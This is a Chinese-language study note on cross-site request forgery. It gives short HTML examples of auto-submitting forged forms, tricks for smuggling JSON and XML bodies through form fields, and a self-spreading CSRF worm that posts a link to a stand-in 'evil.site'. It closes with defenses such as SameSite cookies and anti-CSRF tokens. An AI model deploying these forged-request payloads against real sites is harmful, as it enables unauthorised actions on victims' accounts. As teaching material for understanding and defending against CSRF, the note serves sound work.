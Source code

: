 ```yaml
---
icon: book-open-reader
date: 2024-08-29
---
```


# CSRF

> 跨站请求伪造：诱使目标浏览器发送特定请求，但无法获取凭证和返回结果

<img src="../../.vuepress/public/images/image-20240823170941860.png" alt="image-20240823170941860" style="zoom:50%;" />

<!-- more -->

## 发送请求

假设关注用户请求：http://example.com/follow?id=userid

### GET

\<img>、\<iframe>、\<script>等带src属性的标签

### POST

1. 表单

   ```html
   <form id="myform" action="http://example.com/follow" method="POST">
       <input type="hidden" name="id" value="123">
   </form>
   <script>
   	document.getElementById("myform").submit();
   </script>
   ```

2. JSON

   想要提交的JSON数据

   {
   	"id": 123
   }

   但表单数据是name=value的形式，因此插入无效带等号的键

   ```html
   <form id="myform" action="http://example.com/follow" method="POST">
       <input type="hidden" name="{&quot;id&quot;:123, &quot;dummy"value="&quot;:0}">
       <!-- {"id":123, "dummy"value="":0}  -->
   </form>
   <script>
   	document.getElementById("myform").submit();
   </script>
   ```

3. XML

   ```html
   <input type="hiden" name="&lt;xml version" value="&quot;1.0&quot;?&gt;&lt;id&gt; 123&lt;/id&gt;">
   ```

   ```
   <input type="hiden" name="<xml version" value=""1.0"?><id> 123</id>">
   ```
   

## CSRF蠕虫

### 条件

1. 应用发送其他用户可见内容存在CSRF漏洞
2. 发送内容可嵌入链接

### 传播

> 通过点击博客链接，受害者将发送一篇同样博客进行传播

```html
<form id="myform" action="http://example.com/new_blog" method="POST">
    <input name="content" value='<a href="http://evil.site/csrf.html">click me</a>'>
</form>
<script>
	document.getElementById("myform").submit();
</script>
```

> 通过将头像URL设置为更新头像URL，当受害者载入图片时将改变头像，并根据嵌套层数进行传播，每传播一次剥去一层

```
http://example.com/updateAvatar?url=[IAMGE_URL]
```

## 防御方案

### 验证码

强制用户与应用交互

> 不足：并非所有操作可加验证码

### Referer校验

检测请求是否来自合法“源”

> 不足：并非什么时候都能获取Referer，且Referer可能为空或伪造

### Cookie的SameSite属性

设置strict模式将禁止跨站携带Cookie

> 不足：如果允许发送站内链接，点击链接将会携带Cookie

### Anti-CSRF Token

> 使用随机token

CSRF攻击成功的重要原因是操作中的参数和参数值被猜中，因此将参数加密或使用签名攻击者将无法使用正确参数

加密后的参数非常难读，如果参数每次变化URL将无法被用户收藏，普通参数也被加密的话将给数据分析带来很大困扰

因此使用一个更加通用的方案，保持URL不变，在后面加上随机的参数Token

实际应用时可放于用户Session或浏览器Cookie中

> 要保证Token的机密性与随机性